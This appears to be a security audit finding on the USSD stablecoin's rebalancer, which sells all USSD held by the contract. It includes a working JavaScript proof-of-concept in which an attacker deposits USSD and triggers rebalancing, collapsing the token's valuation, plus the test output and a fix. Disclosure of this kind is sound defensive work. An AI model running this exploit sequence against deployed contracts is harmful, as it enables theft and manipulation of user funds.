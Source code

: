 kie

high

# Potential for USSD value dilution due rebalancing mechanism selling off all USSD stored in the contract

## Summary

The rebalancing process of the USSD contract is vulnerable to exploitation due to the ability to deposit USSD tokens in the contract. A malicious actor could leverage this vulnerability to dilute the value of USSD tokens drastically. 

## Vulnerability Detail

The rebalancer sells off all USSD tokens stored in the contract to recover from a peg-down scenario. If an attacker deposits USSD tokens in the contract and subsequently calls the `rebalancer.rebalance()` function, it will trigger the `SellUSSDBuyCollateral` function. 

In `SellUSSDBuyCollateral`, the rebalancer sells all the USSD tokens stored in the contract for DAI, diluting the value of USSD tokens. The attacker can then swap more DAI for USSD in the UniswapV3Pool, obtaining a considerable amount of USSD tokens for a small amount of DAI.

## Impact

This vulnerability allows a malicious actor to exploit the rebalancing mechanism, which can lead to a significant devaluation of USSD tokens. The potential damage can undermine the contract's stability and reduce the trust in the system.

```js
describe('POC H2', function () {
    it('Depositing USSD to the contract will lead rebalancer to overshoot', async function () {
        await uniswapExactWethForDai(this, web3.utils.toWei('10', 'ether'), attacker);

        let ussdValuationBefore = web3.utils.toBN(await this.rebalancer.getOwnValuation());
        console.log('USSD valuation before', ussdValuationBefore.toString());
        expect(ussdValuationBefore.gt(web3.utils.toBN('990000'))).to.be.true;

        console.log('Attacker swaps 50 DAI for USSD to enable rebalancing')
        await uniswapExactDaiForUssd(this, web3.utils.toWei('50', 'ether'), attacker);

        console.log('Attacker mints remaining DAI for USSD')
        let attackerDaiBalance = web3.utils.toBN(await this.DAI.methods.balanceOf(attacker).call({ from: attacker }));
        await this.DAI.methods.approve(this.USSD.address, attackerDaiBalance).send({ from: attacker });
        await this.USSD.mintForToken(this.DAI.options.address, attackerDaiBalance, attacker, { from: attacker });

        console.log('Attacker deposits all USSD in the contract')
        let attackerUssdBalance = web3.utils.toBN(await this.USSD.balanceOf(attacker));
        await this.USSD.transfer(this.USSD.address, attackerUssdBalance, { from: attacker });

        console.log('Attacker triggers rebalancing')
        await this.rebalancer.rebalance({ from: attacker });

        let ussdValuationAfter = web3.utils.toBN(await this.rebalancer.getOwnValuation());
        console.log('USSD valuation after', ussdValuationAfter.toString());
        expect(ussdValuationAfter.lt(web3.utils.toBN('150000'))).to.be.true;
    });
});
```
This is the ouput:
```text
USSD valuation before 1000001
Attacker swaps 50 DAI for USSD enable rebalancing
Attacker mints remaining DAI for USSD
Attacker deposits all USSD in the contract
Attacker triggers rebalancing
USSD valuation after 126550
```

The full runnable POC is found here: https://gist.github.com/thekie/97db169263b10af96a8669df8d56c803

## Code Snippet

`SellUSSDBuyCollateral` function sells off all stored USSD tokens:
https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L164

## Tool used
Manual Review

## Recommendation

To mitigate this vulnerability, `SellUSSDBuyCollateral` should not simply sell off all stored USSD tokens; instead, the amount that needs to be sold should be provided as input to `SellUSSDBuyCollateral`.